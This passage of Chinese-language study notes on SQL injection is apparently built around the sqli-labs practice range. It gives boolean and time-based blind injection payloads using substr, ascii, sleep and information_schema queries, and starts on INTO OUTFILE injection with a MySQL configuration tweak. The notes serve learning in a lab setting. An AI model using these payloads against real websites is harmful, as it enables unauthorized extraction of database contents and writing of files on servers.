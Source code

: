 ?id=1' and (select ascii(substr(database(),1,1))= 115 )--+

?id=1' and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))= 115 )--+
```

注意加括号

### 布尔型时间盲注

界面上完全没有反应，但是你好像觉得可以注入

#### 本地测试-小知识：

```
select sleep(5);
数5s后输出0

select if((select database())="haha",sleep(5),null);
```

![image-20220114204713005](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114204713005.png)



#### 实战靶场less9：

依靠网站左上角是否转圈加载来判断是否可以实现注入

```
id=2' and sleep(5) --+
判断闭合方式

id=2' and if((select database())="security",sleep(5),null)--+

id=2' and if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='e',sleep(5),null)--+
```







## 04 intooutfile注入（原理知识、变式利用）

### 实战靶场less7

易得闭合方式：id=-2'))

### 小知识

mysql配置文件my.ini里添加

```
secure_file_priv="/"
```

把取出的数据保存在某个文件中：

```
select * from table1 into outfile "c:/a.txt";
